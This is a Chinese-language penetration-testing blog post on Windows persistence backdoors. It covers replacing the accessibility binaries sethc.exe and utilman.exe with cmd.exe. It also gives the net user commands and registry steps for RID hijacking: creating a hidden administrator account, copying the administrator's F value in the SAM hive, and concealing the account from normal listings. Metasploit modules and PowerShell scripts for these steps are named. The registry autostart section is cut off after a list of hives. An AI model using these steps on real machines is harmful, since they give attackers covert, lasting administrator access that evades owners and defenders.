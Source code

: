 ```yaml
---
layout: post
title: 持久化后门
categories: 渗透
description: 渗透测试 之 持久化
keywords: 渗透测试，持久化，后门，免杀

---
```


驻留、免杀

## 0x01 持久化后门

### 1.程序替换

很久很久之前的方法，像是粘滞键（5次shift）、设置中心（Windows+U键）等等，在低版本系统中可以通过替换这些程序为我们想要的比如cmd.exe，就可以做到最简单的后门。

```makefile
其中
粘滞键：C:\Windows\System32\sethc.exe
设置中心：C:\Windows\System32\utilman.exe
将cmd.exe复制到目标文件目录，改名后覆盖。

替换不常用服务的工具：msf自带exploit/windows/local/persistence_service
```

### 2.账户克隆(rid hijack)

Windows使用安全帐户管理器（SAM）来存储本地用户和内置帐户的安全描述符，每个帐户都有一个指定的RID来标识它。我们新建用户，之后导出注册表，并用administrator的f值替换新用户的f值，删掉新用户，再导入注册表，新用户可以正常使用，但net user看不到，也删不掉，只能通过注册表操作。

```csharp
net user lce$ lce.123 /add  //创建匿名用户
net localgroup administrators lce$ /add //加入管理员组
目标注册表键值位置:HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
//PS：SAM键值默认是system权限修改，所以修改一下SAM键的权限，给予administrator完全控制和读取权限
导出lce$的值，并把administrator用户对应的项的F值复制到lce$对应项中的F值
net user lce$ /del //删掉lce$
使用导出的注册表文件，用先前导出的注册表键值对注册表进行修改，重新还原之前的匿名用户  //还原匿名用户lce$

相关工具:msf：post/windows/manage/rid_hijack，Windows-User-Clone.ps1，Create-Clone.ps1
```

### 3.自启动

**注册表自启动项**

注册表简介：类似一种树状数据库。

```undefined
HKEY_CLASSES_ROOT    用于存储一些文档类型、类、类的关联属性
HKEY_CURRENT_CONFIG    用户存储有关本地计算机系统的当前硬件配置文件信息
HKEY_CURRENT_USER    用于存储当前用户配置项
HKEY_CURRENT_USER_LOCAL_SETTINGS    用于存储当前用户对计算机的配置项
HKEY_LOCAL_MACHINE    用于存储当前用户物理状态
HKEY_USERS    用于存储新用户的默认配置项
```
